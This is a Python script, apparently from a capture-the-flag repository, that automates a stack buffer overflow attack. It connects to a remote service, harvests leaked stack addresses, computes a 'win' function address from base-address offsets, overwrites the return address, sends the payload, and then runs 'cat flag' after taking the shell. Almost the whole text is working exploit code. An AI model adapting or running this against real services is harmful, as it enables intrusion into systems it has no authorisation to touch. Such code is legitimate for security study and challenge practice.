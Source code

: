 ```py
customInput = '' # custom input to give (will be later parsed to append bof values)
customAttackCommand = '\ncat flag' # attack script to send after shell takeover

# debug part
donotSubmit = False # don't submit any input

def listen(ip,port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    print("Listening on port " + str(port))
    winAddress = None
    lastLine = False
    sent = False
    attackInput = bytes([])
    customInputEntered = False
    stacks = []
    try:
        while True:
            line = get_line(s)
            if line == None:
                return
            print(line)
            if sent:
                continue
            data = re.findall('0x[a-f0-9]+', line)
            if len(data) > 0:
                if len(data) > 1:
                    stacks.append(data)
                
                if (not calculateWinAddress) and winAddress == None:
                    winAddress = data[0]
                else:
                    if "Return address" in line:
                        lastLine = True

                        if calculateWinAddress:
                            baseAddress = int(stacks[-1][2], 0) - mainFuncOffset
                            winAddress = hex(baseAddress + winFuncOffset)
                            print("Auto-calculated Win Address:", winAddress)

                        attackInput += createStackHex(winAddress, 8)
                    else:
                        attackInput += createStackHex(data[2], 8)
            else:
                if lastLine:
                    sent = True

                    if donotSubmit:
                        continue

                    if not customInputEntered:
                        attackInput = bytes(customInput, "ascii") + attackInput[len(customInput):]
                        customInputEntered = True

                    print("String to input: " , attackInput)

                    send_data(s, attackInput)

                    if customAttackCommand:
                        print("Sending: ", customAttackCommand)
                        send_line(s, customAttackCommand)
    except socket.timeout:
        return
```